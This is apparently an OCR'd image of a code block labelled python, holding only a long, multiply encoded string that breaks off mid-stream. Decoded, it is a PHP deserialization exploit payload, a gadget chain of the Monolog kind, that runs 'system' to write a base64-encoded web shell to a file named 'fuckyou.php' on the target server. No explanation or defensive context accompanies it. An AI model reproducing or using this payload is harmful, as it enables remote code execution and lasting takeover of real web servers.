 ```python
68=00=57=00=45=00=35=00=36=00=57=00=6C=00=68=00=52=00=62=00=30=00=70=00=47=00=4F=00=56=00=52=00=53=00=56=00=6B=00=35=00=55=00=55=00=31=00=55=00=35=00=54=00=31=00=64=00=35=00=55=00=6C=00=64=00=59=00=55=00=32=00=74=00=77=00=5A=00=58=00=6C=00=53=00=54=00=56=00=42=00=54=00=55=00=6D=00=5A=00=56=00=4D=00=46=00=5A=00=55=00=56=00=54=00=42=00=73=00=55=00=46=00=52=00=73=00=63=00=32=00=74=00=57=00=62=00=44=00=41=00=33=00=53=00=6B=00=56=00=46=00=4F=00=56=00=70=00=59=00=61=00=48=00=64=00=69=00=52=00=7A=00=6C=00=72=00=57=00=6C=00=4E=00=6E=00=62=00=6D=00=5A=00=44=00=59=00=33=00=4E=00=4B=00=52=00=58=00=64=00=77=00=54=00=7A=00=4A=00=4F=00=63=00=31=00=6C=00=59=00=54=00=6E=00=70=00=4A=00=52=00=55=00=34=00=33=00=59=00=30=00=68=00=57=00=61=00=57=00=4A=00=48=00=62=00=47=00=70=00=4A=00=52=00=31=00=6F=00=78=00=59=00=6D=00=31=00=4F=00=4D=00=47=00=46=00=58=00=4F=00=58=00=56=00=4A=00=52=00=7A=00=55=00=79=00=59=00=6A=00=4A=00=30=00=62=00=45=00=74=00=44=00=55=00=6E=00=64=00=4C=00=57=00=48=00=52=00=73=00=5A=00=47=00=31=00=47=00=63=00=30=00=74=00=44=00=55=00=6E=00=64=00=4D=00=61=00=55=00=6C=00=70=00=53=00=31=00=52=00=30=00=4F=00=57=00=5A=00=54=00=55=00=6C=00=4E=00=51=00=56=00=7A=00=56=00=73=00=5A=00=48=00=6C=00=43=00=52=00=45=00=74=00=44=00=61=00=7A=00=64=00=4B=00=52=00=6B=00=6C=00=30=00=55=00=47=00=30=00=31=00=4D=00=6D=00=49=00=79=00=64=00=47=00=78=00=4C=00=51=00=31=00=4A=00=43=00=56=00=33=00=6C=00=42=00=64=00=30=00=6C=00=47=00=4D=00=48=00=42=00=50=00=4D=00=6C=00=5A=00=71=00=59=00=55=00=63=00=34=00=5A=00=32=00=4D=00=7A=00=56=00=6D=00=6C=00=6A=00=4D=00=31=00=4A=00=35=00=53=00=30=00=63=00=78=00=61=00=30=00=35=00=54=00=5A=00=32=00=74=00=56=00=51=00=7A=00=52=00=72=00=56=00=6B=00=4E=00=72=00=63=00=30=00=6C=00=45=00=51=00=57=00=64=00=4D=00=51=00=30=00=46=00=34=00=54=00=6D=00=6C=00=42=00=63=00=45=00=38=00=79=00=56=00=6D=00=70=00=68=00=52=00=7A=00=68=00=6E=00=56=00=56=00=4E=00=6F=00=52=00=6B=00=74=00=46=00=51=00=6E=00=6C=00=6B=00=56=00=7A=00=52=00=76=00=53=00=6B=00=56=00=5A=00=63=00=45=00=78=00=44=00=55=00=6C=00=56=00=4C=00=55=00=32=00=73=00=33=00=57=00=6C=00=64=00=4F=00=62=00=32=00=4A=00=35=00=51=00=6E=00=70=00=6B=00=56=00=30=00=70=00=36=00=5A=00=45=00=68=00=4A=00=62=00=32=00=4A=00=58=00=55=00=54=00=46=00=4C=00=51=00=31=00=4A=00=52=00=54=00=47=00=6C=00=53=00=56=00=55=00=74=00=54=00=64=00=32=00=64=00=4E=00=56=00=46=00=6C=00=6E=00=53=00=31=00=52=00=30=00=4F=00=56=00=70=00=58=00=65=00=48=00=70=00=61=00=57=00=48=00=4E=00=72=00=57=00=44=00=46=00=4F=00=52=00=6C=00=55=00=78=00=54=00=6B=00=70=00=55=00=4D=00=44=00=56=00=69=00=53=00=6B=00=5A=00=61=00=5A=00=46=00=42=00=54=00=55=00=6B=00=64=00=50=00=4D=00=7A=00=45=00=35=00=49=00=48=00=77=00=67=00=59=00=6D=00=46=00=7A=00=5A=00=54=00=59=00=30=00=49=00=43=00=31=00=6B=00=49=00=44=00=34=00=75=00=4C=00=32=00=5A=00=31=00=59=00=32=00=74=00=35=00=62=00=33=00=55=00=75=00=63=00=47=00=68=00=77=00=49=00=6A=00=74=00=7A=00=4F=00=6A=00=55=00=36=00=49=00=6D=00=78=00=6C=00=64=00=6D=00=56=00=73=00=49=00=6A=00=74=00=4F=00=4F=00=33=00=31=00=39=00=63=00=7A=00=6F=00=34=00=4F=00=69=00=49=00=41=00=4B=00=67=00=42=00=73=00=5A=00=58=00=5A=00=6C=00=62=00=43=00=49=00=37=00=54=00=6A=00=74=00=7A=00=4F=00=6A=00=45=00=30=00=4F=00=69=00=49=00=41=00=4B=00=67=00=42=00=70=00=62=00=6D=00=6C=00=30=00=61=00=57=00=46=00=73=00=61=00=58=00=70=00=6C=00=5A=00=43=00=49=00=37=00=59=00=6A=00=6F=00=78=00=4F=00=33=00=4D=00=36=00=4D=00=54=00=51=00=36=00=49=00=67=00=41=00=71=00=41=00=47=00=4A=00=31=00=5A=00=6D=00=5A=00=6C=00=63=00=6B=00=78=00=70=00=62=00=57=00=6C=00=30=00=49=00=6A=00=74=00=70=00=4F=00=69=00=30=00=78=00=4F=00=33=00=4D=00=36=00=4D=00=54=00=4D=00=36=00=49=00=67=00=41=00=71=00=41=00=48=00=42=00=79=00=62=00=32=00=4E=00=6C=00=63=00=33=00=4E=00=76=00=63=00=6E=00=4D=00=69=00=4F=00=32=00=45=00=36=00=4D=00=6A=00=70=00=37=00=61=00=54=00=6F=00=77=00=4F=00=33=00=4D=00=36=00=4E=00=7A=00=6F=00=69=00=59=00=33=00=56=00=79=00=63=00=6D=00=56=00=75=00=64=00=43=00=49=00=37=00=61=00=54=00=6F=00=78=00=4F=00=33=00=4D=00=36=00=4E=00=6A=00=6F=00=69=00=63=00=33=00=6C=00=7A=00=64=00=47=00=56=00=74=00=49=00=6A=00=74=00=39=00=66=00=58=00=4D=00=36=00=4D=00=54=00=4D=00=36=00=49=00=67=00=41=00=71=00=41=00=47=00=4A=00=31=00=5A=00=6D=00=5A=00=6C=00=63=00=6C=00=4E=00=70=00=65=00=6D=00=55=00=69=00=4F=00=32=00=6B=00=36=00=4C=00=54=00=45=00=37=00=63=00=7A=00=6F=00=35=00=4F=00=69=00=49=00=41=00=4B=00=67=00=42=00=69=00=64=00=57=00=5A=00=6D=00=5A=00=58=00=49=00=69=00=4F=00=32=00=45=00=36=00=4D=00=54=00=70=00=37=00=61=00=54=00=6F=00=77=00=4F=00=32=00=45=00=36=00=4D=00=6A=00=70=00=37=00=61=00=54=00=6F=00=77=00=4F=00=33=00=4D=00=36=00=4F=00=44=00=41=00=77=00=4F=00=69=00=4A=00=6C=00=59=00=32=00=68=00=76=00=49=00=46=00=42=00=45=00=4F=00=58=00=64=00=68=00=53=00=45=00=46=00=6E=00=53=00=55=00=68=00=4F=00=62=00=47=00=4D=00=7A=00=54=00=6E=00=42=00=69=00=4D=00=6A=00=56=00=6D=00=59=00=7A=00=4E=00=53=00=61=00=47=00=4E=00=75=00=55=00=57=00=39=00=4C=00=56=00=48=00=52=00=42=00=59=00=7A=00=4A=00=57=00=4D=00=46=00=67=00=7A=00=55=00=6E=00=42=00=69=00=56=00=31=00=5A=00=6D=00=59=00=6B=00=64=00=73=00=64=00=47=00=46=00=59=00=55=00=57=00=39=00=4E=00=51=00=32=00=73=00=33=00=55=00=55=00=64=00=57=00=65=00=57=00=4E=00=74=00=4F=00=58=00=6C=00=59=00=4D=00=30=00=70=00=73=00=59=00=30=00=63=00=35=00=65=00=57=00=52=00=48=00=62=00=48=00=56=00=61=00=65=00=57=00=64=00=33=00=53=00=31=00=52=00=30=00=62=00=57=00=52=00=58=00=4E=00=57=00=70=00=6B=00=52=00=32=00=78=00=32=00=59=00=6D=00=6C=00=43=00=52=00=6B=00=74=00=44=00=55=00=6B=00=56=00=4D=00=51=00=31=00=4A=00=4D=00=53=00=31=00=68=00=30=00=62=00=57=00=49=00=7A=00=53=00=57=00=39=00=4B=00=52=00=32=00=73=00=35=00=53=00=55=00=52=00=42=00=5A=00=30=00=39=00=35=00=55=00=6E=00=42=00=51=00=53=00=45=00=34=00=77=00=59=00=32=00=31=00=34=00=62=00=47=00=4A=00=70=00=5A=00=32=00=74=00=53=00=51=00=32=00=73=00=33=00=53=00=6B=00=64=00=72=00=63=00=6B=00=74=00=35=00=62=00=44=00=64=00=4B=00=52=00=56=00=4A=00=69=00=53=00=6B=00=64=00=73=00=5A=00=46=00=42=00=54=00=55=00=6B=00=56=00=58=00=65=00=56=00=4A=00=77=00=57
```